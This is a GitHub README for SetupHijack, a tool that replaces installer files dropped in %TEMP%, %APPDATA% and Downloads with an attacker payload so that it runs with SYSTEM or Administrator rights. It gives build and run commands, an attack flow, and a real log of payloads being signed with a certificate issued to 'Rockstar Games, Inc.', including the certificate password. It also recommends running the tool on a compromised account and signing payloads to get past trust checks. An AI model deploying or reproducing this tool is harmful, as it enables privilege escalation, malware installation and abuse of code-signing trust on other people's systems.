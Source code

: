 # SetupHijack

---

## Overview

**SetupHijack** is a security research tool that exploits race conditions and insecure file handling in Windows installer and update processes. It targets scenarios where privileged installers or updaters drop files in `%TEMP%` or other world-writable locations, allowing an attacker to replace these files before they are executed with elevated privileges.

- Does **not** require elevated permissions to run.
- Does **not** use file system notifications (polls for changes instead).
- Exploits weaknesses in Authenticode code signing and installer trust models.
- Can infect `.exe`, `.msi`, and batch files (e.g., `sysinfo`, `netstat`, `ipconfig`).
- Designed for red team, penetration testing, and security research use only.

The intended use of this tool is to run in the background on a compromised user account with privileges, in order to elevate another process by hijacking installer/updater file drops.

## How It Works

1. **SetupHijack** continuously scans `%TEMP%` (and subdirectories) for new or modified installer files.
2. When a target file is detected, it is replaced with a user-supplied payload (EXE, MSI, or BAT), optionally preserving the original as a `.bak` file.
3. If the privileged process executes the replaced file before integrity checks, the payload runs with elevated rights (e.g., SYSTEM or Administrator).
4. The tool logs all actions and maintains a skiplist to avoid re-infecting the same files.

## Code Signing Note

This project uses a hacked code-signing process with [SignToolEx.exe and SignToolExHook.dll](https://github.com/hackerhouse-opensource/SignToolEx) to sign payloads and installers. Using valid code-signing certificates and an Authenticode timestamp will increase your success rate when bypassing installer and OS trust checks.

---

## Usage

### Build

```sh
nmake PAYLOAD=c:\Path\to\your\payload.exe
```

### Run (Options)

```sh
SetupHijack.exe                  # Scan %%TEMP%%, %%APPDATA%%, and %%USERPROFILE%%\Downloads (default)
SetupHijack.exe -notemp          # Disable scanning %%TEMP%%
SetupHijack.exe -noappdata       # Disable scanning %%APPDATA%%
SetupHijack.exe -nodownloads     # Disable scanning %%USERPROFILE%%\Downloads
SetupHijack.exe clean            # Clean mode (restores .bak backups in all enabled locations)
SetupHijack.exe verbose          # Verbose mode (log all actions)
SetupHijack.exe <payload.exe>    # Use specified payload for .exe (unless argument is a recognized option)
```

- Run **SetupHijack.exe** before or during a privileged install/update process.
- By default, the tool scans all common drop locations: %TEMP%, %APPDATA%, and %USERPROFILE%\Downloads.
- You can disable any location with the `-notemp`, `-noappdata`, or `-nodownloads` flags.
- The `clean` flag restores backups in all enabled locations. The `verbose` flag logs all actions.
- For remote escalation, use with `shadow.exe` or similar tools on Terminal Services.

## Example Attack Flow

1. Build your payload and SetupHijack:
   ```sh
   nmake PAYLOAD=c:\Users\YourUser\Desktop\payload.exe
   ```
2. Start SetupHijack:
   ```sh
   SetupHijack.exe
   ```
3. Launch the target installer or update process as Administrator.
4. If the installer drops files in `%TEMP%` and executes them with elevated rights, your payload will be substituted and run.

## Example Output

Below is a real example of building and running SetupHijack, including code signing and infection output:

```
C:\Users\Fantastic\Desktop\Sayuri\InfectElevatedSetups>nmake PAYLOAD="C:\USers\Fantastic\Desktop\DEMO\Renge_x64.exe"

Microsoft (R) Program Maintenance Utility Version 14.29.30159.0
Copyright (C) Microsoft Corporation.  All rights reserved.

        powershell -Command "(Get-Content SetupHijack.cpp) -replace '#define PAYLOAD_PATH L\".*\"', '#define PAYLOAD_PATH L\"%ESCAPED_PAYLOAD%\"' | Set-Content SetupHijack.cpp"
        cl /nologo /W4 /EHsc /DUNICODE /D_UNICODE /MT /O2 /c SetupHijack.cpp
SetupHijack.cpp
SetupHijack.cpp(318): warning C4189: 'hr2': local variable is initialized but not referenced
        taskkill /f /im SetupHijack.exe 2>nul
        powershell -Command "Start-Sleep -Milliseconds 500"
        link /nologo /SUBSYSTEM:CONSOLE /ENTRY:wmainCRTStartup /NODEFAULTLIB:MSVCRT /NODEFAULTLIB:MSVCPRT /OUT:SetupHijack.exe SetupHijack.obj kernel32.lib user32.lib shlwapi.lib Shell32.lib /MANIFEST /MANIFESTFILE:SetupHijack.exe.manifest
        copy /y install.wxs.template install.wxs
        1 file(s) copied.
        powershell -Command "(Get-Content install.wxs) -replace 'Source=\"PAYLOAD_PLACEHOLDER\"', 'Source=\"%ESCAPED_PAYLOAD%\"' | Set-Content install.wxs"
        wix build install.wxs -o install.msi
Generating install.bat with payload C:\USers\Fantastic\Desktop\DEMO\Renge_x64.exe
Generating launch_payload.bat with payload C:\USers\Fantastic\Desktop\DEMO\Renge_x64.exe
        powershell -Command "(Get-Content install.wxs) -replace '(<File Id=\"RengeExeFile\" Source=\").*?(\" KeyPath=\"yes\"/>)', '`%ESCAPED_PAYLOAD%`' | Set-Content install.wxs"
        call sign_random.bat
Using CERT: [certs\rockstar1.pfx]
Using PASS: [C!EZxYUxVGPzQDj3]
The following certificate was selected:
    Issued to: Rockstar Games, Inc.
    Issued by: Entrust Code Signing CA - OVCS1
    Expires:   Thu Mar 20 17:16:13 3000
    SHA1 hash: C9793F4A2E629D88F2213622D7A0C170D9C7CBC6

Done Adding Additional Store
Successfully signed: SetupHijack.exe

Number of files successfully Signed: 1
Number of warnings: 0
Number of errors: 0
The following certificate was selected:
    Issued to: Rockstar Games, Inc.
    Issued by: Entrust Code Signing CA - OVCS1
    Expires:   Thu Mar 20 17:16:13 3000
    SHA1 hash: C9793F4A2E629D88F2213622D7A0C170D9C7CBC6

Done Adding Additional Store
Successfully signed: install.msi

Number of files successfully Signed: 1
Number of warnings: 0
Number of errors: 0

C:\Users\Fantastic\Desktop\Sayuri\InfectElevatedSetups>SetupHijack.exe
[2025-09-24 15:20:46] [SetupHijack] Using payload: C:\USers\Fantastic\Desktop\DEMO\Renge_x64.exe
[2025-09-24 15:20:46] [SetupHijack] If infecting .msi, will use: install.msi
[2025-09-24 15:20:46] [SetupHijack] Polling enabled locations recursively for .exe, .msi, .bat:
[2025-09-24 15:20:46]   - C:\Users\FANTAS~1\AppData\Local\Temp
[2025-09-24 15:20:46]   - C:\Users\Fantastic\AppData\Roaming
[2025-09-24 15:20:46]   - C:\Users\Fantastic\Downloads
[2025-09-24 15:20:46] [SetupHijack] Entering infection loop.
[2025-09-24 15:20:59] [SetupHijack] Total infections this session: 0
[2025-09-24 15:21:13] [SetupHijack] Replaced C:\Users\FANTAS~1\AppData\Local\Temp\installcmd.bat with payload install.bat, backup: C:\Users\FANTAS~1\AppData\Local\Temp\installcmd.bat.bak
[2025-09-24 15:21:13] [SetupHijack] New infections this run: 1
[2025-09-24 15:21:22] [SetupHijack] Replaced C:\Users\Fantastic\Downloads\installcmd.msi with payload install.msi, backup: C:\Users\Fantastic\Downloads\installcmd.msi.bak
[2025-09-24 15:21:26] [SetupHijack] New infections this run: 1
[2025-09-24 15:21:26] [SetupHijack] Total infections this session: 2
[2025-09-24 15:21:41] [SetupHijack] Replaced C:\Users\Fantastic\AppData\Roaming\InsecureApp\setup.exe with payload C:\USers\Fantastic\Desktop\DEMO\Renge_x64.exe, backup: C:\Users\Fantastic\AppData\Roaming\InsecureApp\setup.exe.bak
[2025-09-24 15:21:41] [SetupHijack] New infections this run: 1
[2025-09-24 15:21:53] [SetupHijack] Total infections this session: 3
```

## Example Use to Deploy An Implant

Below is a screenshot showing SetupHijack in action, deploying an implant during a privileged installer run:

![Example Use to Deploy An Implant](Example.png)

## Security Notes

- This tool is for authorized testing and research only.
- Exploiting these weaknesses can result in full SYSTEM compromise when user in Administrator group.
- Installers may use hash/signature checks that will block this attack, but many still do not.
- Always use in a controlled environment.
- If you discover a CVE or get bounty with this tool, credit us!

Targeting a single directory (such as `%TEMP%`) at a time can increase the likelihood of winning any time-of-creation/time-of-use (TOCTOU) race condition, as it allows for faster polling and less contention. For maximum reliability, run multiple instances of SetupHijack, each focused on a single directory. For optimum results, ensure your payload (the EXE you want to run elevated) includes a manifest requesting elevation (requireAdministrator), and is signed with a valid code-signing certificate that includes an Authenticode timestamp. This increases the chance of bypassing installer and OS trust checks on installers.

---

These files are available under an Attribution-NonCommercial-NoDerivatives 4.0 International license.
